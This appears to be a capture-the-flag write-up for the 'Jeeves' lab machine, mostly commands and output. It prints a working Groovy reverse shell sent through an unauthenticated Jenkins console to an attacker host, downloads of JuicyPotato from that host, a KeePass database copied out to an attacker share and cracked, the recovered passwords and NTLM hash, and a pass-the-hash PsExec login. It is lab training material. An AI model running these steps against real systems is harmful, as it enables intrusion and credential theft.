




# Reconnaissance

I began with a full TCP port scan. The target exposed HTTP, MSRPC, SMB, and an unknown web service on port 50000.

```bash
cat nmap_tcp.txt
# Nmap 7.95 scan initiated Thu Apr 16 11:30:08 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sT -p- -oN nmap_tcp.txt 10.129.228.112
Nmap scan report for 10.129.228.112
Host is up (0.24s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

# Nmap done at Thu Apr 16 11:37:32 2026 -- 1 IP address (1 host up) scanned in 443.37 seconds
```

# Jenkins Discovery

Browsing to port 50000 returned an Ask Jeeves-themed error page.

```text
http://10.129.228.112:50000/
```





The page hinted at the `/askjeeves` path. Visiting it exposed an unauthenticated Jenkins instance.

```text
http://10.129.228.112:50000/askjeeves
```



# Initial Access

The Jenkins instance exposed its unauthenticated Groovy Script Console at `/askjeeves/script`. I first started a listener on my Kali host:

```bash
nc -lvnp 9999
```

I then submitted the following Groovy reverse shell in the Script Console. It starts `cmd.exe`, connects back to the listener, and forwards the process input and output over the socket.

```groovy
String host = "10.10.14.48";
int port = 9999;
String cmd = "cmd";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {
        // The process is still running.
    }
}

p.destroy();
s.close();
```

Executing the script returned a shell. I confirmed that Jenkins was installed under the Administrator profile and inspected its files.



```cmd
Directory of C:\Users\Administrator\.jenkins

04/16/2026  03:53 PM    <DIR>          .
04/16/2026  03:53 PM    <DIR>          ..
04/16/2026  04:58 PM                46 .owner
04/16/2026  03:53 PM             1,684 config.xml
11/03/2017  10:33 PM             1,712 identity.key.enc
04/16/2026  03:53 PM            84,620 jenkins.err.log
11/03/2017  10:47 PM           360,448 jenkins.exe
11/03/2017  10:47 PM        74,271,222 jenkins.war
11/03/2017  10:33 PM    <DIR>          jobs
11/03/2017  10:33 PM    <DIR>          plugins
11/03/2017  10:33 PM                64 secret.key
11/03/2017  10:33 PM                 0 secret.key.not-so-secret
12/24/2017  03:47 AM    <DIR>          secrets
11/03/2017  10:33 PM    <DIR>          users

C:\Users\Administrator\.jenkins>type secret.key
58d05496da2496d09036d36c99b56f1e89cc662f3e65a4023de71de7e1df8afb
```

# User Flag

The Jenkins process ran as `kohsuke`, whose Desktop contained the user flag.

```powershell
C:\Users\kohsuke\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 71A1-6FA1

Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes

C:\Users\kohsuke\Desktop>type user.txt
[REDACTED]
```

# Privilege Escalation

The account had `SeImpersonatePrivilege`, which initially suggested a token-impersonation attack.

```powershell
C:\Users\kohsuke\Desktop>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

I transferred JuicyPotato using two different methods, but this path did not produce a working escalation.

```powershell
wget http://10.10.14.48:8081/JuicyPotato.exe -O C:\Users\kohsuke\Desktop\JuicyPotato.exe
```

```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.48:8081/JuicyPotato.exe', 'C:\Users\kohsuke\Desktop\JuicyPotato.exe')"
```

## KeePass Credential Recovery

Further enumeration found a KeePass database named `CEH.kdbx` in the user's Documents directory. I copied it to my SMB share for offline analysis.

```cmd
C:\Users\Administrator\.jenkins>copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.14.48\share\CEH.kdbx
        1 file(s) copied.
```

I converted the database into a John-compatible hash before running the dictionary attack:

```bash
keepass2john CEH.kdbx > keepass.hash
```

John cracked the database password as `moonshine1`.

```bash
┌──(kali㉿kali)-[~/htb/Jeeves]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt keepass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
moonshine1       (CEH)
1g 0:00:00:31 DONE (2026-04-16 23:48) 0.03184g/s 1750p/s 1750c/s 1750C/s
Session completed.
```

```bash
keepassxc CEH.kdbx
```

The database contained separate `administrator` and `admin` entries. The `administrator` entry was relevant to the local Administrator account:

```text
administrator:S1TjAtJHKsugh9oC4VZl
admin:F7WhTrSFDKB6sxHU1cUn
```

It also exposed the Administrator NTLM hash:

```text
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

# Administrator Access

With the recovered hash, I used pass-the-hash authentication through PsExec and obtained a SYSTEM shell.

```powershell
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.228.112.....
[*] Found writable share ADMIN$
[*] Uploading file BKsNPurW.exe
[*] Opening SVCManager on 10.129.228.112.....
[*] Creating service qFgE on 10.129.228.112.....
[*] Starting service qFgE.....
Microsoft Windows [Version 10.0.10586]

C:\Windows\system32>cd C:\users\administrator\Desktop

C:\Users\Administrator\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 71A1-6FA1

Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes

C:\Users\Administrator\Desktop>type hm.txt
The flag is elsewhere. Look deeper.
```

# Root Flag: NTFS Alternate Data Stream

The hint indicated that the flag was hidden rather than stored in a normal file. Listing NTFS alternate data streams with `dir /R` revealed `root.txt` attached to `hm.txt`.

```powershell
C:\Users\Administrator\Desktop>dir /R
Volume in drive C has no label.
Volume Serial Number is 71A1-6FA1

Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes

C:\Users\Administrator\Desktop>more < hm.txt:root.txt
[REDACTED]
```
